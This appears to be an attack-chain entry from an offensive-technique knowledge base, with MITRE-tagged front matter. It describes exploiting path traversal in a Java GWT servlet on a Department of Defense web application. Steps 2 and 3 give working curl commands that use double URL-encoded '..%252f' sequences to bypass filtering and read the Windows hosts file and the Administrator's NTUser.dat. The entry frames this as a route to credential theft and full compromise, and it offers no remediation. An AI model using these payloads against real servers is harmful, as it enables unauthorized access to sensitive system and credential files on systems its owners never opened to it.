

---
tags:
  - path-traversal
  - lfi
  - java
  - servlet
  - gwt
  - windows
  - dod
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Windows
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Vulnerable-GWT-Servlet-Endpoint]]'
  - '[[procedures/Exploit-Path-Traversal-for-POC-File-Read]]'
  - '[[procedures/Verify-Admin-Privileges-via-Restricted-File-Access]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:29:19.941Z'
description: >-
  A multi-stage attack exploiting path traversal in a misconfigured Java GWT
  servlet to achieve local file disclosure with administrator privileges on a
  Windows-based DoD web application, enabling access to sensitive system files
  and potential full system compromise.
skill_level: intermediate
impact_level: high
id: 47743c36-951b-41b6-acca-fcef6a080acd
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
---
# Path Traversal in GWT Servlet Leading to Admin-Privileged Local File Disclosure on DoD Web Application

Multi-stage attack chain demonstrating exploitation of a path traversal vulnerability in a misconfigured Java servlet (likely GwtCssServlet) on a U.S. Department of Defense web application. The attack uses double URL-encoded traversal sequences to bypass filtering, achieving local file inclusion (LFI) with administrator privileges. This allows reading sensitive files like the hosts file and NTUser.dat, potentially leading to credential extraction, log access, or remote code execution (RCE) for full system compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- Web browser or HTTP client for testing

### Target Environment

- Windows-based web server
- Java servlet environment (GWT framework)
- Exposed /gwtmain/ endpoint
- Network access to the target DoD application

### Initial Access Requirements

- No authentication required (public-facing application)
- Direct HTTP access to the target host
- No prior access needed beyond network reachability

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Vulnerable-GWT-Servlet-Endpoint]]

**Objective**: Locate the misconfigured servlet endpoint that lacks proper path validation, setting the stage for traversal exploitation.

**Instructions**: Probe the target application for the /gwtmain/ endpoint, which serves static files but allows traversal due to insufficient sanitization. Use a basic HTTP request to confirm the endpoint responds without errors.

**Expected Output**: 200 OK response indicating the servlet is active and serving content.

**Success Indicators**:
- Endpoint responds to basic GET requests
- No immediate filtering on path parameters observed

### Step 2: Exploit Path Traversal for POC File Read
procedure: [[procedures/Exploit-Path-Traversal-for-POC-File-Read]]

**Objective**: Demonstrate LFI by reading a non-sensitive system file using double-encoded traversal to bypass filters.

**Instructions**: Craft a GET request to the /gwtmain/ endpoint with a payload traversing to c:\windows\System32\drivers\etc\hosts. Use double URL encoding (%252f for /) to evade detection. Execute using [[commands/curl-path-traversal-hosts]]:

```bash
curl -X GET "https://target-domain/gwtmain//..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/System32/drivers/etc/hosts" -H "Host: target-domain" -H "Accept-Encoding: gzip, deflate" -H "Accept: */*" -H "Accept-Language: en" -H "User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)" --connect-timeout 10
```

Alternatively, test via browser with [[commands/browser-path-traversal-hosts]].

**Expected Output**: 200 OK response containing the contents of the hosts file.

**Success Indicators**:
- File contents returned in response body
- No 403 or 404 errors

### Step 3: Verify Admin Privileges via Restricted File Access
procedure: [[procedures/Verify-Admin-Privileges-via-Restricted-File-Access]]

**Objective**: Confirm the LFI operates with administrator rights by accessing a privileged file like NTUser.dat.

**Instructions**: Send a traversal payload targeting C:\Users\Administrator\NTUser.dat, which is restricted to admin access. Use [[commands/curl-path-traversal-ntuser]]:

```bash
curl -X GET "https://target-domain/gwtmain//..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fUsers/Administrator/NTUser.dat" -H "Host: target-domain" -H "Accept-Encoding: gzip, deflate" -H "Accept: */*" -H "Accept-Language: en" -H "User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)" --connect-timeout 10
```

**Expected Output**: 200 OK with binary contents of NTUser.dat.

**Success Indicators**:
- Access to admin-restricted file granted
- Response includes file data, confirming high privileges

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed vulnerable /gwtmain/ servlet endpoint
2. Achieved LFI to read system files via double-encoded path traversal
3. Verified administrator-level access, enabling potential extraction of credentials or registry data for further compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
